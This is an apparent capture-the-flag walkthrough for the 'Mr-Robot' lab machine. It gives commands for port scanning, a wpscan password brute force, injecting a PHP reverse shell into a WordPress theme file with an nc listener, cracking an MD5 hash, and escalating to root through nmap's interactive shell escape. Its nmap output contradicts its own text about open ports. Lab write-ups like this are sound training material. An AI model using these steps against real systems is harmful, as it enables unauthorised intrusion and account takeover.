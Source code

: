 THE MACHINE IS MR-ROBOT

For firts thing we run the tool name Nmap: 

	nmap -p- IPMACHINE

we foud two ports open wich there are:

	PORT    STATE  SERVICE
	22/tcp  closed ssh
	80/tcp  closed http
	443/tcp closed https

open the website and run the gobuster
we found a lot of page , the must importants are 

	/robots.txt
	/login

in robots.txt the found the first key and a file dictionary
now it's time to bruteforce the pannel of login whit hydra or wpscan whit dictionary 

we found the username: Elliot

now whit wpscan

	wpscan --url IP -U elliot -P fsocity.dic
  
we found the password for the access 
Now go for theme twenty fifteen chose the templet into 404.php
Here insert a php reverse shell 
Open port to listening 

	nc -lvpn 9001

browse the following URL to run the injected php code

	http://IP/wordpress/wp-content/themes/twentyfifteen/404.php

the rev shell worked and we found the second key , but the permission is denied
there is another file called password.raw-md5
open it 

	robot:c3fcd3d76192e4007dfb496cca67e13b

decrypt the strings whit md5 for have the password for robot

	su robot 

insert the password decrypted
now you can open the second key

Now the need  do escalate our privilage.For do that , we use another tool called linepas.
run this on the machine for extract the information for possible privialge escalation.

the vuln is on NMAP 
it runs as root 
search the exploit GTFO

	nmap --interactive
	nmap> !sh

we are root , can steal the last flag in directory root